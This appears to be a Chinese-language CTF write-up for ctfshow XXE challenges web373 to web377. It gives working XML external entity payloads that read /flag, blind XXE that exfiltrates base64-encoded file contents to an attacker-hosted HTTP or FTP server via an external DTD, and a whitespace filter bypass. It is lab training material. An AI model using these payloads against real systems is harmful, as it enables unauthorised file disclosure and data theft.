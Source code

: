 ## web373

用burp post下面的数据

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
	<!ENTITY xxe SYSTEM "file:///flag">
]>
<root><ctfshow>&xxe;</ctfshow></root>
```

## web374

无回显XXE

可以用python构造一个静态服务器 (这里监听和静态服务是一个端口)

`python3 -m http.server 8000`

payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xxx.xx.xxx.78:8000/test.dtd">%xxe;]>
```

test.dtd文件:

(flag必须base64这样编码才打得通,不知道是不是服务器的问题=.=)

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xxx.xx.xxx.78:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

服务器端数据base64解码即可

![1610082443757](xxe/1610082443757.png)

## web375 376

存在过滤,用空格绕过即可

payload:

```xml
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://xxx.xx.xxx.78:8000/test.dtd"> %xxe;]>
<root><ctfshow>&xxe;</ctfshow></root>
```

![1610082443757](xxe/1610082443757.png)

## web377

禁用了http,可以考虑别的协议,像ftp等

搭建ftp 服务 python -m pyftpdlib -p 8001 (打的时候把安全组关了)

开http服务监听 python3 -m http.server 8000

payload:

```xml-dtd
<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "ftp://xxx.xx.xxx.78:8001/test.dtd"> %xxe;]>
<root><ctfshow>&xxe;</ctfshow></root>
```

test.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://xxx.xx.xxx.78:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

![1610090109891](xxe/1610090109891.png)

